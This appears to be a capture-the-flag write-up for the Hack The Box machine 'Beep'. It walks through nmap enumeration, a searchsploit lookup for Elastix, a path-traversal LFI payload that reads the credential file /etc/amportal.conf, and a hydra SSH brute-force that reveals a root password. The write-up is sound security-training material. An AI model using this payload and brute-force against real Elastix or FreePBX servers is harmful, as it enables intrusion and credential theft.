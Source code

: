 # Beep
### Info:

OS: Linux <br>
IP: 10.10.10.7 <br>
Difficulty : easy <br>
### <b>4 different ways to get this box:</b>
  1. LFI(local file inclusion) + password <br>
  2. LFI to RCE <br>
  3. PBX exploit (code exec via call)<br>
  4. Shellshock <br>
### Enumeration:

```nmap -sC -sV -oA nmap 10.10.10.7``` <br>

gives us the results : <br>

```
# Nmap 7.70 scan initiated Mon Jan  7 21:48:31 2019 as: nmap -sC -sV -oA nmap 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.73s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES PIPELINING APOP TOP UIDL STLS EXPIRE(NE$
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            743/udp  status
|_  100024  1            746/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: MULTIAPPEND Completed OK THREAD=ORDEREDSUBJECT THREAD=REFERENCES X-NETSCAPE URLAUTHA0001 CONDSTORE LISTEXT $
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryNam$
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2019-01-07T14:13:44+00:00; -2h07m46s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
```
Running dirbuster on page http://10.10.10.7 with wordlists gave us some import subdomains such as <b> /admin, /help, /config </b> </br> 
Checking the admin page we get the Version of the FreePBX as `2.8.1.4` <br>
### Exploitation:
Searching with searchsploit gives us the result 
```
root@kali:~/Desktop/boxes/retired/Beep# searchsploit elastix
---------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                          |  Path
                                                                                        | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------- ----------------------------------------
Elastix - 'page' Cross-Site Scripting                                                   | exploits/php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                 | exploits/php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                           | exploits/php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                        | exploits/php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                       | exploits/php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                      | exploits/php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                  | exploits/php/webapps/18650.py
---------------------------------------------------------------------------------------- ----------------------------------------
```
On examining with -x on `Elastix 2.2.0 - 'graph.php' Local File Inclusion` we get 
```
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
Running this gives a list of passwords and usernames and running it with hydra gives us the root credentials:
```
root@kali:~/Desktop/boxes/retired/Beep# hydra -L users -P pw ssh://10.10.10.7
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-01-09 01:18:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28 login tries (l:7/p:4), ~2 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-01-09 01:18:52
```
### Things Learned :
Web Based fuzzing

Indentifying known exploits using searchsploit

Exploit local file inclusion vulns

